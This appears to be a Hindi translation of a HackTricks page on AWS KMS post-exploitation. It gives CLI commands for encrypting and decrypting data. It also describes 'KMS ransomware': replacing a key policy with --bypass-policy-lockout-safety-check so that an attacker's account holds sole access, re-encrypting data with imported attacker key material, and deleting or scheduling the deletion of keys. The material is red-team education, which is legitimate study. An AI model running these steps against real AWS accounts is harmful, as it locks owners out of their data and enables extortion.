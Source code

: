 # AWS - KMS पोस्ट एक्सप्लोइटेशन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## KMS

अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

* एक **सममित** कुंजी का उपयोग
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* एक **विषमाकृत** कुंजी का उपयोग:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
यदि **`kms decrypt`** का प्रयास करते समय 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' त्रुटि प्राप्त होती है तो **`fileb://`** की बजाय **`--ciphertext-blob file://`** का उपयोग करने की कोशिश करें।

**`file://`** का उपयोग CLI का उपयोग करते समय अपनी पसंदीदा encoding में लिखे गए फ़ाइलों का उपयोग करने की सुविधा प्रदान करता है।
CLI के संस्करण 1.6.3 और उच्चतर में, आपको CLI को फ़ाइल की सामग्री को पास करने के एक और तरीके तक पहुंच है, **`fileb://`**। यह **`file://`** के समान रूप से काम करता है, लेकिन फ़ाइल की सामग्री को पाठ के रूप में पढ़ने की बजाय यह बाइनरी के रूप में पढ़ा जाता है।

अधिकांश मामलों में, **`file://`** आपके उपयोग मामले को संतुष्ट कर देगा जब फ़ाइल की सामग्री को इनपुट के रूप में पास करने के लिए। हालांकि, कुछ मामलों में **`fileb://`** का उपयोग करना आवश्यक है जिसमें फ़ाइल की सामग्री को पाठ के रूप में नहीं बल्कि बाइनरी के रूप में पास किया जाना चाहिए।
AWS से अधिक जानकारी पढ़ें: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS रैंसमवेयर

KMS पर विशेषाधिकार वाले एक हमलावर कुंजी के साथ एक्सेस को संशोधित कर सकता है और **उसके खाते को उनके ऊपर एक्सेस देने की अनुमति देता है**, वैध खाते से दी गई पहुंच को हटा देता है।

फिर, वैध खाते के उपयोगकर्ता उन कुंजियों से एन्क्रिप्ट की गई किसी भी सेवा की कोई भी जानकारी तक पहुंच नहीं पा सकेंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैंसमवेयर बन जाता है।

{% hint style="warning" %}
ध्यान दें कि इस हमले से **AWS managed keys प्रभावित नहीं होतीं**, केवल **Customer managed keys**।

इस हमले को केवल CLI से ही संभव बनाने के लिए **`--bypass-policy-lockout-safety-check`** पैरामीटर का उपयोग करने की आवश्यकता है (इस विकल्प की कमी वेब कंसोल में इस हमले को केवल CLI से ही संभव बनाती है)।
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाह्य खाते को पहुंच देते हैं, और फिर इस बाह्य खाते से आप मूल खाते को पहुंच देने की एक नई नीति सेट करने का प्रयास करते हैं, तो आप यह करने में सक्षम नहीं होंगे।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### सामान्य KMS रैंसमवेयर

#### वैश्विक KMS रैंसमवेयर

एक और तरीका है एक वैश्विक KMS रैंसमवेयर का अभिनय करने के लिए, जिसमें निम्नलिखित चरण शामिल हो सकते हैं:

* हमलावर द्वारा आयातित एक कुंजी सामग्री के साथ एक नई **कुंजी बनाएं**
* पिछले संस्करण से एन्क्रिप्ट किए गए पुराने डेटा को नए संस्करण के साथ **पुनः एन्क्रिप्ट करें**
* **KMS कुंजी को हटाएं**
* अब केवल हमलावर, जिसके पास मूल कुंजी सामग्री है, वह एन्क्रिप्ट किए गए डेटा को डिक्रिप्ट कर सकता है

### कुंजियाँ नष्ट करें
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
नोट करें कि AWS अब **पूर्व क्रियाएँ एक क्रॉस अकाउंट से किए जाने वाले कार्रवाई को रोकता है:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
